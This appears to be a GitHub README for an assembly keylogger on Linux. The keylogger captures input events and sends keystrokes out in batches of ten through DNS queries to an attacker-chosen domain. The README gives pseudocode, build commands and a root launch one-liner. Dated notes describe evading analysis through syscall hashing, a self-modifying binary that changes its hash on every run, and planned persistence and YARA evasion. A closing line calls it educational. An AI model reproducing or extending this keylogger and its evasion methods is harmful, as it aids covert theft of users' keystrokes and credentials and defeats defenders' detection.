

### Pseudo code
```
input_event = readOneInputEvent("/dev/input/event0")

key_temp_concat = ""

if input_event is a touch press event:
    key_code = to_ascii(key_code)
    key_temp_concat += key_code
    if len(key_temp_concat) == 10:
        dns_query(key_temp_concat.testdomaine.com)
```

### How to run ?

In the code change the domaine : "testdomaine" to a one you own. Or just leave the "testdomaine" if you just want to see the request in wireshark. 

#### Assemble with nasm
```
nasm -f elf64 keylogger.asm
```
*transform assembly into opcodes*

#### Link with ld
```
ld keylogger.o -o keylogger
```
*combines the opcodes files to create the executable*

#### Run as root and release the terminal
```
sudo ./keylogger </dev/null &
```

#### One-line launch
```
nasm -f elf64 keylogger.asm ; ld keylogger.o -o keylogger ; sudo ./keylogger </dev/null &
```

## Notes on the project
### First analysis without obfuscation method (14/03/2026)

By running the program, you can see the DNS queries it performs.


The fact that binary ninja attempt to recreate the high-level code in which the program was never created is quite fun. However all the syscall, the data (domain and files) is perfectly understandable and clearly displayed. Therefore, it wouldn't be very difficult to recover all the IOCs using a reverse analysis.


Things to add before the next analysis :
- syscall obfuscation
- dynamic signature generation allowing its fingerprint to be modified at each execution
- persistence mechanism

### First attempt of syscall obfuscation
This first attempt consists of retrieving the syscall into a "num" file. 

cf : experimentation/syscall_obfuscation_first_attempt.asm


The syscall is obfuscated ; sys_write is not recover by the decompiler, it's the buffer return by sys_read.

But it is still easy to retrieve the file and deduce the syscalls from it.

### Obfuscation trought syscall hashing (26/03/2026)

I initially implemented a non-cryptographic pseudo-hashing method of the djb2 type (cf : https://github.com/karambole-dev/learn-assembly-x86/blob/main/hashing/pseudo_djb2.asm)

We will hash all the numbers from 100 to 0 until one of them has the same hash as the desired one (here 60), and if it is the case we can exit the programm correctly by using it as a syscall (sys_exit = 60).

cf : experimentation/syscall_obfuscation_hashing.asm

I then placed all this logic in a function that the keylogger calls before a syscall: 
```assembly
    mov rdi, 177575 ; hash of number : 2
    call find_value ; r10 = returned value

    mov rax, r10 ; open event0 file
    mov rdi, event0_file_path
    mov rsi, 0
    mov rdx, 0
    syscall
```

I only obfuscated the first syscall in the "keylogger_with_dns_exfiltration_and_syscall_obfuscation.asm" version ; the code is already quite complex and I would like to be able to continue rereading it.

On the reverse side, we see that the decompiler can no longer automatically retrieve the syscall. This is already enough to slow down the analysis.



Obviously, the fact that the file name is visible makes obfuscation less effective.

Things to add before the next analysis :
- fingerprint generation
- obfuscate files name and domain to bypass basic yara rules

### Dynamic fingerprint (27/03/2026)

```
$ md5sum keylogger_with_dns_exfiltration_and_syscall_obfuscation_and_dynamic_fingerprint
a7974156c03fd4e83898b9fc5dd3061e

$ sudo ./keylogger_with_dns_exfiltration_and_syscall_obfuscation_and_dynamic_fingerprint 
^C

$ md5sum keylogger_with_dns_exfiltration_and_syscall_obfuscation_and_dynamic_fingerprint
3761e4aa2318f7ffd61725692d2dc315
```

Creating a self-modifying binary was much harder than i thought because the kernel blocks writing to running binaries (errors ETXTBSY).

So you have to retrieve it from memory (/proc/self/exe is the current bin in the context so we can read it), copy it to a temporary file, unlink the file from its memory instance, delete the file, and rename the copy with the name of the original binary. (cf : experimentation/dynamic_fingerprint.asm)

### Warning
Only use this program on a machine you own. This code was written for educational purposes.

---

```
Is this an AI generated project ?

AI was used to facilitate the collection of informations as well as to fix syntax errors.
But all of the code and the content was written by a human.
```